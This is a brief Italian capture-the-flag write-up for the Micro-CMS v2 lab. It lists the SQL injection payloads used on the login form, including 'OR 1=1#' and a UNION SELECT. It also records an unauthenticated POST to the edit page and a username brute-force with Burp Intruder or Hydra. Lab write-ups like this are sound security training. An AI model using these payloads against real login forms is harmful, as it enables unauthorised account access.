


# Micro-CMS v2

## flag0

+Creare nuova pagina, viene chiesto login

+ admin:admin => 'Unknown user'

+ admin'sqltest:admin => 'Traceback'

+ admin' OR 1=1#:password => 'Invalid password' => quindi admin(true) e password(false)

+ admin= admin' UNION SELECT 'pwned'#  password= pwned   (craftata guardando la query nell'error)

+ Flag si trova in una pagina che esce dopo aver loggato

## flag1

+ POST request su edit page (curl , burpsuite , etc.)

## flag2

+ Hint dice: "Credentials are secret, flags are secret. Coincidence?"

+ Torno su login, admin' OR 1=1#:password => 'Invalid password' 

+ admin = dipa' OR 1=1# password= 'bruteforce con wordlist di username'

+ Io l'ho fatto con intruder di burpsuite, può essere fatto anche con hydra o tool simili.

+ [wordlist](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt)
 